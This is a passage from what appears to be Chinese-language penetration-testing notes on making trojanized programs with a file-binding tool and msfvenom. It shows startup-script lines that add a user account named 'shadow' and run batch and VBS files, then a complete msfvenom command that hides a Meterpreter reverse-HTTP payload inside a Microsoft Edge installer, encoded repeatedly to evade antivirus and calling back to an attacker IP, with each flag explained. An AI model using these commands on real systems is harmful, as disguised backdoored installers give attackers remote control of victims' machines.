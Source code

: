 > PS: 一些额外启动脚本代码示例:
>
> ```
> cmd net user shadow 123 /add     //添加一个用户shadow
> start cmd /c %root%\shadow.bat   //执行测试的bat
> start wscript %root%\shadow.vbs  //执行测试vbs
> ```

---

点击左下角 `选择图标` 按钮选择生成程序的图标然后点击右下角的 `生成` 按钮即可生成捆绑程序

![image-20240717112857786](http://cdn.ayusummer233.top/DailyNotes/202407171128899.png)

![image-20240717113544992](http://cdn.ayusummer233.top/DailyNotes/202407171135121.png)

![image-20240717113610390](http://cdn.ayusummer233.top/DailyNotes/202407171136547.png)

---

## msfvenom捆绑程序

> [msf之木马程序-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1699911)
>
> [【渗透测试笔记】之【钓鱼姿势——exe捆绑与免杀】-CSDN博客](https://blog.csdn.net/qq_44874645/article/details/118525837)

准备好目标程序(这里选择了Microsoft Edge安装包, 放在了 `/root/temp/MicrosoftEdgeSetup.exe`)

使用 msfvenom 生成捆绑木马

```bash
msfvenom -p windows/meterpreter/reverse_http lhost=100.1.1.131 lport=55555 -e x86/shikata_ga_nai -i 15 -f exe -b '\x00\x0a\x0d' -x /root/temp/MicrosoftEdgeSetup.exe > /root/temp/out/MicrosoftEdgeSetup.exe
```

- `-p`：指定后面的 payload

  `windows/meterpreter/reverse_tcp`：申明这是一个windows系统下的一个反弹http

- `LHOST=192.168.0.108,`：设置反弹回来的ip，即你的kali的ip地址

- `lport` 反弹端口(默认返回端口是4444)

- `-e`: 指定编码器 `x86/shikata_ga_nai`

- `-i`: 指定编码次数

- `-f`： 捆绑的文件类型，这里是一个exe文件

- `-b`:  指定需要避开的坏字符（通常是由于这些字符在payload中会引起问题）

  这里是避免使用`\x00`（null字节）、`\x0a`（换行符）和`\x0d`（回车符）。

- `-x`：指定捆绑的文件路径

- `-o`：指定生成木马的文件路径

![image-20240717144916986](http://cdn.ayusummer233.top/DailyNotes/202407171449258.png)
